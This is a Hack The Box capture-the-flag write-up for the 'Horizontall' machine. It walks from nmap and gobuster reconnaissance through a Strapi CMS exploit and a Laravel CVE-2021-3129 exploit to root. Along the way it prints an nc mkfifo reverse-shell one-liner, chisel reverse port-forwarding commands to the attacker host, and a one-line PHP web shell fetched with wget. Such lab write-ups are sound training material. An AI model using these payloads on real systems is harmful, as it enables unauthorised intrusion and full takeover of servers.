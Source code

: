 ```yaml
---
layout: default
title : muzec - Horizontall HTB Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/148056566-bbff1385-857b-4625-8ab1-6a2af94f624c.png)

We always start with an nmap scan.....

```
nmap -p- --min-rate 10000 -oA nmap/allports -v IP
```

```
# Nmap 7.91 scan initiated Thu Dec 30 08:30:37 2021 as: nmap -p- --min-rate 10000 -oA nmap/allports -v 10.10.11.105
Warning: 10.10.11.105 giving up on port because retransmission cap hit (10).
Increasing send delay for 10.10.11.105 from 320 to 640 due to 570 out of 1899 dropped probes since last increase.
Increasing send delay for 10.10.11.105 from 640 to 1000 due to 1398 out of 4658 dropped probes since last increase.
Nmap scan report for 10.10.11.105
Host is up (0.24s latency).
Not shown: 52107 closed ports, 13426 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Dec 30 08:31:48 2021 -- 1 IP address (1 host up) scanned in 70.64 seconds
```

Interesting two open ports let throw some service detection and scripts switch on it to confirm what we have running on it we can already see it `SSH and HTTP` but let keep it flashy lol.


```
nmap -sC -sV -oA nmap/normal -p 22,80 IP
```

```
# Nmap 7.91 scan initiated Thu Dec 30 08:32:40 2021 as: nmap -sC -sV -oA nmap/normal -p 22,80 10.10.11.105
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: horizontall
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 08:32:58 2021 -- 1 IP address (1 host up) scanned in 18.10 seconds
```

Now that is more flashy we are checking the `HTTP` first make sure to add `IP` and `horizontall.htb` to your host file. 

![image](https://user-images.githubusercontent.com/69868171/148058010-51883f76-4001-4249-8ff8-5b81caaeadb8.png)

Now next thing to do is to check the source page but we got nothing let burst some directories and subdomain to find some hidden page.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]                                                                                                              
└─$ gobuster dir -u http://horizontall.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html,bak,sh -o gobuster.req
/index.html           (Status: 200) [Size: 901]
/img                  (Status: 301) [Size: 194] [--> http://horizontall.htb/img/]
/css                  (Status: 301) [Size: 194] [--> http://horizontall.htb/css/]
/js                   (Status: 301) [Size: 194] [--> http://horizontall.htb/js/]
```

But i got nothing on the domain let check subdomain.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ gobuster vhost -u http://horizontall.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  
Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
```

Boom we got a subdomain which is cool add again to our host file now let access it to see what in store for us.

![image](https://user-images.githubusercontent.com/69868171/148062275-4fb13163-e6d1-4efc-8fbc-1dd8d154b02d.png)

We got a welcome message and the rest is blank so i try adding `/admin` and the back of the subdomain you can also burst directories you will get it i just guess it and boom it work.

![image](https://user-images.githubusercontent.com/69868171/148062675-e9ac9161-42c1-46fa-893c-44a25d29fc5c.png)

Seems we are dealing with `strapi cms` using some default credentials and we got no luck let see wwhat we can find on google.

```
http://api-prod.horizontall.htb/admin/strapiVersion
```

![image](https://user-images.githubusercontent.com/69868171/148063058-83731e9c-e26b-42a0-a275-8d7dff3a6a5d.png)

We found the version let confirm if the version is vulnerable.

![image](https://user-images.githubusercontent.com/69868171/148063158-3b9f1297-0025-438b-82e4-63185c98da86.png)

Boom let download the exploit to try it out.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ python3 50239.py http://api-prod.horizontall.htb/
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQxMzAxNDYxLCJleHAiOjE2NDM4OTM0NjF9.50jv0hWWZ3KBCn-U0EIA2qNHkE7e4ddOrksf0yQuzbI


$> 
```

We are in but when i try to run a command i got some error.

![image](https://user-images.githubusercontent.com/69868171/148063509-0ca789cf-2460-4239-902c-24fb3088a990.png)

Smooth let try to transfer the shell.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Ncat ready to catch the reverse shell.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ nc -nvlp 1337 
listening on [any] 1337 ...
```

![image](https://user-images.githubusercontent.com/69868171/148063865-42bb052d-091e-43af-ab79-5c068c273ffa.png)

Boom more better let spawn a full tty shell.

![image](https://user-images.githubusercontent.com/69868171/148064159-1c37afcb-c021-47a0-9400-2910af4c55df.png)

Now let get the `user.txt` first.

![image](https://user-images.githubusercontent.com/69868171/148064371-d5a6ccdf-8b9e-4c78-af23-be84f14e9a9d.png)

Boom now let try to move our privilege.

![image](https://user-images.githubusercontent.com/69868171/148064681-013ed459-8775-447e-8745-780e199c84a3.png)

Found a credentials but when i try to use it for the user `developer` i got no luck so let check for `SUID` .

![image](https://user-images.githubusercontent.com/69868171/148064882-ee502a39-1232-45d7-a933-3c47ae9e8fb6.png)

Nothing also let check what ports we have running locally with us.

```
ss -tulpn
```

![image](https://user-images.githubusercontent.com/69868171/148064999-3cb0bfda-e916-4888-8359-c9e7fd9a98f9.png)

Boom we have a port let try to port forward using `chisel` first of all we need to transfer a copy of `chisel` binary to the target.

![image](https://user-images.githubusercontent.com/69868171/148065402-e6d6b3b0-913e-4d0c-b011-6331017f362c.png)

Now let start the server on our attacking machine.

```
./chisel server -p 9000 --reverse &
```

![image](https://user-images.githubusercontent.com/69868171/148065782-0450945b-8aea-4f23-93ca-a7aec4ccd2fb.png)


Now on the target.

```
./chisel client 10.10.14.7:9000 R:9001:127.0.0.1:8000 &
```

![image](https://user-images.githubusercontent.com/69868171/148065987-7ddf2b02-0bf1-4f37-9ac2-006da12b9c52.png)

We are ready to access it now.

```
127.0.0.1:9001
```

![image](https://user-images.githubusercontent.com/69868171/148066115-698d5f6f-0194-43f2-a839-483ee9475c42.png)

Boom we found a Laravel v8 (PHP v7.4.18) version seems cool let confirm if it vulnerable.

![image](https://user-images.githubusercontent.com/69868171/148066426-3fe2f56c-2852-4811-93c0-ac968121204c.png)

Boom jackpot let give it a shot.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105/CVE-2021-3129]
└─$ python3 exploit.py
[*] Try to use monolog_rce1 for exploitation.
[*] Result:
uid=0(root) gid=0(root) groups=0(root)

[*] Try to use monolog_rce2 for exploitation.
[*] Result:
uid=0(root) gid=0(root) groups=0(root)

[*] Try to use monolog_rce3 for exploitation.
[*] Result:
[-] RCE echo is not found.
```

Exploit working now let try to get a reverse shell let edit the exploit to wget our shell file to the server.

```
//Save in shell.php//

<?php system ($_GET['cmd']); ?>
```

Now let start our python server.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.105]
└─$ python -m SimpleHTTPServer                       
Serving HTTP on 0.0.0.0 port 8000 ...
```

![image](https://user-images.githubusercontent.com/69868171/148067410-2d46be44-92c9-41a2-a383-28f654bdba68.png)

Now let save and run the exploit again.

![image](https://user-images.githubusercontent.com/69868171/148067535-3b5b5bc1-2b61-4957-a7d8-bb270bf61766.png)

Which confirm our file has been transfered let confirm it.

![image](https://user-images.githubusercontent.com/69868171/148067657-f631d551-3c39-427b-8c78-7f3812532dbc.png)

Flashy right hehehehehe let get a reverse shell back to our terminal now.

![image](https://user-images.githubusercontent.com/69868171/148067929-c79d26d1-0645-4082-a0af-00ab9a96f7bf.png)

Bruhhhhhhhh you just got yourself a root you are l33t and thanks for reading my writeup between peace out.


Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

